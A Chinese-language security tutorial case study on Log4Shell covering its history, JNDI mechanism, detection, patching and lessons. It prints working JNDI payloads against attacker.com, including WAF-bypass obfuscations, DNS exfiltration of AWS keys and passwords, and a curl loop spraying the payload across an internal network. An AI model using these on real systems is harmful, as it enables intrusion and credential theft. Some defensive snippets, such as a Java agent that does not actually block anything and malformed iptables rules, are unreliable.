

## 案例十：Log4Shell（CVE-2021-44228）深度分析

Log4Shell 是网络安全史上最严重的漏洞之一。2021年12月9日公开后，CVSS评分10.0（满分），影响全球数百万Java应用程序。这个案例揭示了一个核心安全思维：**依赖链中的信任边界**——你以为安全的第三方库，可能就是最致命的攻击面。

### 漏洞背景与影响范围

#### 漏洞起源

Log4j 2.x 是 Apache 基金会维护的 Java 日志框架，被广泛集成到各类 Java 应用中。漏洞存在于 Log4j 2.x 的 JNDI Lookup 功能中——该功能允许在日志消息中通过 `${jndi:...}` 语法动态查询 JNDI 服务。

**关键时间线**：

| 时间 | 事件 |
|------|------|
| 2021年11月24日 | 阿里云安全团队向 Apache 报告漏洞 |
| 2021年12月1日 | 漏洞利用 PoC 在 GitHub 出现 |
| 2021年12月9日 | 漏洞细节大规模公开，攻击开始 |
| 2021年12月10日 | Apache 发布 Log4j 2.15.0（修复不完整） |
| 2021年12月17日 | 发现绕过补丁的 CVE-2021-45046 |
| 2021年12月18日 | Apache 发布 Log4j 2.16.0（再次修复） |
| 2021年12月28日 | 发现 DoS 漏洞 CVE-2021-45105 |
| 2021年12月29日 | Apache 发布 Log4j 2.17.0（最终修复） |

#### 影响范围

Log4Shell 的可怕之处在于它的影响范围。几乎所有使用 Log4j 2.x 的 Java 应用都受影响：

- **Web 框架**：Spring Boot、Apache Struts、Apache Solr、Elasticsearch
- **中间件**：Apache Tomcat、JBoss、WebLogic、WebSphere
- **大数据组件**：Apache Kafka、Apache Spark、Apache Flink
- **云服务**：AWS、Azure、GCP 上大量托管服务
- **企业软件**：VMware vCenter、Citrix、数百种商业产品

据估计，全球约 **40%** 的企业 Java 应用直接或间接受影响。攻击者可以在漏洞公开后的 **数秒内** 自动化利用，这使得 Log4Shell 成为史上被利用速度最快的漏洞之一。

### 技术原理深度解析

#### JNDI 与 Lookup 机制

要理解 Log4Shell，首先要理解 JNDI（Java Naming and Directory Interface）。JNDI 是 Java 提供的一套命名和目录服务 API，允许 Java 应用通过统一接口访问多种目录服务：

- **LDAP**：轻量目录访问协议
- **RMI**：远程方法调用
- **DNS**：域名系统
- **CORBA**：公共对象请求代理架构

Log4j 2.x 的 Lookup 功能允许在日志消息中嵌入表达式，运行时由 Log4j 解析并替换为实际值。例如：

```java
logger.info("User logged in: ${env:USERNAME}");
// 输出: User logged in: admin
```

问题在于，Log4j 同时支持 JNDI Lookup：

```java
logger.info("Processing: ${jndi:ldap://example.com/data}");
// Log4j 会连接 ldap://example.com/data 并加载返回的对象
```

#### 漏洞触发链



**漏洞触发的三个必要条件**：

1. **应用使用 Log4j 2.x**（版本 2.0-beta9 到 2.14.1）
2. **用户可控输入被记录到日志**（HTTP 头、表单、URL 参数等）
3. **应用能够发起出站网络连接**（访问攻击者的 LDAP/HTTP 服务器）

#### 根本原因分析

Log4Shell 的根本原因不是单一的编程错误，而是多个设计缺陷的叠加：

| 层面 | 问题 | 影响 |
|------|------|------|
| 功能设计 | Lookup 功能默认启用，无需显式配置 | 所有应用默认暴露攻击面 |
| 安全模型 | JNDI 允许加载远程代码 | 攻击者可远程执行任意代码 |
| 输入处理 | 日志消息中的表达式在运行时解析 | 用户输入直接触发危险操作 |
| 权限控制 | 无沙箱限制 Lookup 的访问范围 | Lookup 可访问任意网络资源 |
| 信任边界 | 第三方库继承应用的全部权限 | 日志库拥有了代码执行权限 |

### 漏洞利用变种与绕过技术

#### 基础利用 Payload

最直接的利用方式，通过 JNDI 加载远程恶意类：

```text
${jndi:ldap://attacker.com/exploit}
```

攻击者在 `attacker.com` 上运行恶意 LDAP 服务器，返回指向恶意 Java class 文件的引用。目标应用的 JVM 会下载并执行该 class，从而实现远程代码执行。

#### WAF 绕过变种

漏洞公开后，WAF 厂商迅速添加了基于 `${jndi:ldap://` 关键字的检测规则。但 Log4j 的表达式语法极其灵活，可以构造大量等价变种：

**大小写混淆**：
```text
${${lower:j}ndi:${lower:l}dap://attacker.com/x}
```

`lower` 函数将字符转为小写，语义不变但关键字被拆散，绕过简单字符串匹配。

**字符替换**：
```text
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker.com/x}
```

`::-` 是 Log4j 的递归替换语法，相当于取字符串本身，但将关键字拆成多个片段。

**环境变量默认值**：
```text
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/x}
```

`env:BARFOO:-j` 表示：如果环境变量 `BARFOO` 不存在，则使用默认值 `j`。由于 `BARFOO` 不存在，结果就是 `j`。

**嵌套混淆**：
```text
${${lower:${lower:jndi}}:${lower:ldap}://attacker.com}
${${::-j}ndi:ldap://attacker.com/${env:PATH}}
```

**实战中的绕过思路**：攻击者通常会将多种混淆技术组合使用，制造出数十甚至上百种变种，逐个尝试直到绕过 WAF。这种"模糊测试"式的攻击方式对基于规则的检测构成了根本性挑战。

#### 信息泄露利用

Log4Shell 不仅仅是 RCE 漏洞。即使目标环境无法直接发起出站连接（如无网络出站规则的容器），攻击者仍然可以通过 DNS 外传泄露敏感信息：

**环境变量外传**：
```text
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.attacker.com}
${jndi:ldap://${env:DATABASE_PASSWORD}.attacker.com}
${jndi:ldap://${env:API_KEY}.attacker.com}
```

Log4j 先解析 `${env:AWS_SECRET_ACCESS_KEY}`，得到实际值（如 `YOUR_AWS_KEY_ID`），然后拼接成域名 `YOUR_AWS_KEY_ID.attacker.com`，发起 DNS 查询。攻击者在 DNS 服务器上查看查询日志即可获取密钥。

**系统属性外传**：
```text
${jndi:ldap://${sys:java.version}.attacker.com}
${jndi:ldap://${sys:os.name}.attacker.com}
${jndi:ldap://${sys:user.dir}.attacker.com}
```

**主机名外传**：
```text
${jndi:ldap://${env:HOSTNAME}.attacker.com}
${jndi:ldap://${env:COMPUTERNAME}.attacker.com}
```

这种 DNS 外传技术特别危险，因为大多数环境不会监控出站 DNS 查询，而且 DNS 流量通常不被防火墙阻断。

### 检测与识别方法

#### 漏洞扫描

**主动扫描**：使用专门的 Log4Shell 扫描工具检测目标是否存在漏洞：

```bash
# 使用 log4j-scan（Python）
python3 log4j-scan.py --url https://target.com

# 使用 nuclei 模板
nuclei -t cves/2021/CVE-2021-44228.yaml -u https://target.com

# 使用 nmap NSE 脚本
nmap --script http-log4shell -p 80,443 target.com
```

**被动检测**：在应用日志中搜索可疑的 JNDI Lookup 字符串：

```bash
# 搜索日志中的 JNDI 利用尝试
grep -rE '\$\{jndi:(ldap|rmi|dns|corba|iiop)://' /var/log/

# 搜索混淆变种
grep -rE '\$\{.*\$\{.*\}.*jndi' /var/log/
grep -rE '\$\{::-[jndiJNDI]' /var/log/
```

#### 运行时检测

**Java Agent 检测**：通过 Java Agent 拦截 JNDI 调用，在运行时检测和阻断恶意请求：

```java
// 简化的检测逻辑
public class Log4ShellDetector {
    public static void premain(String args, Instrumentation inst) {
        inst.addTransformer(new ClassFileTransformer() {
            @Override
            public byte[] transform(ClassLoader loader, String className,
                Class<?> classBeingRedefined, ProtectionDomain protectionDomain,
                byte[] classfileBuffer) {
                // 拦截 JndiLookup 类的 lookup 方法
                if ("org/apache/logging/log4j/core/lookup/JndiLookup".equals(className)) {
                    // 记录告警并阻止执行
                    log.warn("Blocked JNDI Lookup attempt from {}", className);
                    return null; // 返回 null 阻止类加载
                }
                return null;
            }
        });
    }
}
```

**网络层检测**：监控出站 LDAP/RMI 连接，特别是连接到外部 IP 的请求：

```bash
# 使用 iptables 记录出站 LDAP 连接
iptables -A OUTPUT -p tcp --dport 389 -j LOG --log-prefix "OUTBOUND_LDAP: "
iptables -A OUTPUT -p tcp --dport 636 -j LOG --log-prefix "OUTBOUND_LDAPS: "
iptables -A OUTPUT -p tcp --dport 1099 -j LOG --log-prefix "OUTBOUND_RMI: "
```

#### WAF 规则示例

```apache
# Apache mod_security 规则
SecRule ARGS|ARGS_NAMES|REQUEST_HEADERS|REQUEST_URI \
    "@rx (?i)\$\{.*jndi.*:.*(?:ldap|rmi|dns|corba|iiop).*\}" \
    "id:1001,phase:2,deny,status:403,\
    msg:'Log4Shell CVE-2021-44228 Detected',\
    severity:'CRITICAL'"
```

### 修复方案与防御策略

#### 立即措施（应急响应）

**措施一：升级 Log4j**

这是最根本的修复方案。升级到 Log4j 2.17.0 或更高版本：

```xml
<!-- Maven 依赖 -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.0</version>
</dependency>
```

注意：2.15.0 和 2.16.0 都存在绕过问题，必须使用 2.17.0+。

**措施二：禁用 Lookup 功能**

如果无法立即升级，可以通过系统属性禁用 Lookup：

```bash
# 启动时添加参数
java -Dlog4j2.formatMsgNoLookups=true -jar app.jar

# 或设置环境变量
export LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

注意：此措施仅对 Log4j 2.10+ 有效，且不能防御 CVE-2021-45046 的某些绕过场景。

**措施三：移除 JndiLookup 类**

从 Log4j 核心 JAR 中删除漏洞类，这是最可靠的应急措施：

```bash
# 定位 JAR 文件
find / -name "log4j-core-*.jar" 2>/dev/null

# 删除 JndiLookup 类
zip -q -d /path/to/log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

# 验证已删除
jar tf /path/to/log4j-core-*.jar | grep JndiLookup
```

**措施四：网络层阻断**

```bash
# 阻止应用服务器出站 LDAP/RMI 连接
iptables -A OUTPUT -p tcp --dport 389 -d ! 10.0.0.0/8 -j DROP
iptables -A OUTPUT -p tcp --dport 636 -d ! 10.0.0.0/8 -j DROP
iptables -A OUTPUT -p tcp --dport 1099 -d ! 10.0.0.0/8 -j DROP
```

#### 长期措施（体系建设）

**建立软件物料清单（SBOM）**：

SBOM 是软件中所有组件的清单，类似于食品的配料表。当类似 Log4Shell 的漏洞出现时，SBOM 能让你在几分钟内确定受影响的系统，而不是几天。

```bash
# 使用 syft 生成 SBOM
syft dir:/path/to/app -o spdx-json > sbom.json

# 使用 grype 扫描已知漏洞
grype sbom:sbom.json
```

**实施软件成分分析（SCA）**：

在 CI/CD 流水线中集成 SCA 工具，自动检测依赖中的已知漏洞：

```yaml
# GitHub Actions 示例
- name: Run SCA Scan
  uses: aquasecurity/trivy-action@master
  with:
    scan-type: 'fs'
    scan-ref: '.'
    severity: 'CRITICAL,HIGH'
    exit-code: '1'
```

**建立漏洞响应流程**：

1. **情报订阅**：订阅 NVD、CVE、厂商安全公告的邮件列表
2. **影响评估**：收到漏洞通知后 4 小时内完成影响范围评估
3. **分级响应**：根据 CVSS 评分和资产重要性制定响应 SLA
4. **验证修复**：修复后通过扫描和手动测试验证有效性
5. **复盘改进**：每次事件后更新流程和自动化工具

### 真实世界影响

#### 攻击统计

Log4Shell 公开后，攻击量呈爆发式增长：

- **公开后 24 小时**：检测到超过 **100 万次** 利用尝试
- **公开后 72 小时**：主要僵尸网络（Mirai、Muhstik、Khonsari）已集成 Log4Shell 利用模块
- **公开后 1 周**：APT 组织（APT35/Charming Kitten、Hafnium 等）开始利用
- **公开后 1 个月**：加密货币挖矿、勒索软件、数据窃取等各类攻击全面铺开

#### 典型攻击场景

**场景一：云环境密钥窃取**

攻击者通过 Log4Shell 触发 DNS 外传，将 AWS IAM 密钥泄露到外部 DNS 服务器：

```text
${jndi:ldap://${env:AWS_ACCESS_KEY_ID}.${env:AWS_SECRET_ACCESS_KEY}.attacker.com}
```

获取密钥后，攻击者可以访问受害者的 S3 存储桶、EC2 实例、RDS 数据库等所有云资源。

**场景二：内网横向移动**

攻击者通过 Log4Shell 在内网一台服务器上获得立足点，然后扫描内网其他服务：

```bash
# 内网扫描其他 Log4Shell 目标
for ip in $(seq 1 254); do
    curl -H "X-Api-Version: \${jndi:ldap://attacker.com/\${env:HOSTNAME}}" \
        http://10.0.0.$ip:8080/ &
done
```

**场景三：供应链攻击**

攻击者通过 Log4Shell 攻击 CI/CD 服务器，在构建产物中植入后门，从而影响所有使用该构建产物的下游用户。

### 安全思维启示

#### 依赖即攻击面

Log4Shell 最深刻的教训是：**你信任的依赖，就是你的攻击面**。一个日志库——看似无害的组件——却拥有远程代码执行的能力。这打破了"日志库不需要安全审计"的常见假设。

**思维转变**：在评估安全风险时，不能只看功能分类，而要分析每个组件实际拥有的权限和能力。一个拥有网络访问权限的日志库，本质上就是一个网络组件。

#### 默认安全原则

Log4j 的 Lookup 功能默认启用，且没有任何安全警告。这违反了"默认安全"原则——功能应该默认关闭，只有在明确需要时才启用。

**思维转变**：在设计系统时，所有可能带来安全风险的功能都应该是"opt-in"（主动启用）而非"opt-out"（主动禁用）。

#### 深度防御的价值

单一的防御措施（如 WAF 规则）无法应对 Log4Shell 的各种变种。只有多层防御（WAF + 网络隔离 + 运行时检测 + 最小权限）才能有效降低风险。

**思维转变**：安全不是一道墙，而是多层洋葱。每一层都可能被绕过，但攻击者必须同时绕过所有层才能成功。

#### 应急响应速度

Log4Shell 从漏洞公开到大规模利用只用了 **不到 24 小时**。这要求企业必须具备快速响应能力——能够在数小时内完成影响评估和初步修复。

**思维转变**：安全响应的单位不再是"天"，而是"小时"。自动化扫描、SBOM、预定义的响应流程是应对现代漏洞的必备能力。

### 进阶内容

#### Java 安全机制与 JNDI 注入防护

Java 在 Log4Shell 之后加强了 JNDI 的安全限制。从 Java 8u191+ 和 Java 11.0.1+ 开始，`com.sun.jndi.ldap.object.trustURLCodebase` 默认为 `false`，阻止从远程 URL 加载 class 文件。

但这不能完全防御 Log4Shell，因为攻击者可以使用以下绕过技术：

- **本地 Class 路径利用**：如果目标 classpath 中存在可利用的类（如 `Tomcat BeanFactory`），攻击者可以通过 LDAP 返回本地 class 引用而非远程 URL
- **Java 对象反序列化**：通过 LDAP 返回序列化的 Java 对象，触发反序列化漏洞
- **DNS 外传**：即使无法 RCE，仍可通过 DNS 泄露敏感信息

#### 供应链安全最佳实践

| 实践 | 描述 | 工具 |
|------|------|------|
| SBOM 管理 | 维护所有依赖的完整清单 | Syft、CycloneDX |
| 漏洞扫描 | 持续扫描依赖中的已知漏洞 | Trivy、Grype、Snyk |
| 版本锁定 | 锁定依赖版本，禁止自动升级 | Maven lockfile、Gradle dependency locking |
| 最小依赖 | 移除不必要的依赖，减少攻击面 | jlink、ProGuard |
| 运行时防护 | 限制依赖的运行时权限 | Java Security Manager、容器 seccomp |

#### Log4Shell 家族漏洞

| CVE 编号 | 版本 | 问题 | CVSS |
|----------|------|------|------|
| CVE-2021-44228 | 2.0-beta9 ~ 2.14.1 | JNDI 注入 RCE | 10.0 |
| CVE-2021-45046 | 2.15.0 | 补丁绕过（非默认配置） | 9.0 |
| CVE-2021-45105 | 2.16.0 | 递归 Lookup 导致 DoS | 7.5 |
| CVE-2021-44832 | 2.17.0 | JDBC Appender RCE（需配置权限） | 6.6 |

**最终安全版本**：Log4j 2.17.1+（修复了所有已知问题）。
